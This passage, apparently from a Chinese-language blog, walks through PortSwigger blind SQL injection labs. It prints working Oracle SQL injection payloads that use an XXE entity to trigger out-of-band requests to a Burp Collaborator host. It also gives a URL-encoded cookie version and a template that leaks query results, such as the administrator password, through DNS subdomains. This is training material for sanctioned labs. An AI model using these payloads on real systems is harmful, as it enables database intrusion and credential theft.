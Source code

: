 
湊了一下大概是這樣

```
123' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://3lpwnvde33g6z9iskfiy33xm0d65uu.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual -- -
```

不過這個不能直接塞到 F12 的餅乾欄位裡面，會爛掉，所以可以先把上面這一坨做一下 URL Encode 變成

```
123%27%20UNION%20SELECT%20extractvalue%28xmltype%28%27%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C%21DOCTYPE%20root%20%5B%20%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2F3lpwnvde33g6z9iskfiy33xm0d65uu.burpcollaborator.net%2F%22%3E%20%25remote%3B%5D%3E%27%29%2C%27%2Fl%27%29%20FROM%20dual%20--%20-
```

塞進瀏覽器後 F5 即可完成。

送出後就過關了，不過還是可以回來我們的 Burp Collaborator 觀察一下上面的記錄。

![](https://i.imgur.com/AZ03wv3.png)


## [Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)
### 題目敘述
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 
### 題目解釋
這一題跟前一題差不多，但除了發起 DNS 查詢之外，我們還需要藉機把資料帶出來，一樣需要用到 Burp Pro。

### 解答

觀察 [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)，可以看出基本型 Payload 是
```
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
```

就跟剛剛得差不多，只是用字串串接的方法來把答案帶在 subdomain，這一題需要取 administrator 的密碼，所以我們可以先寫標準SQL。

```
SELECT password FROM users WHERE username='administrator'
```
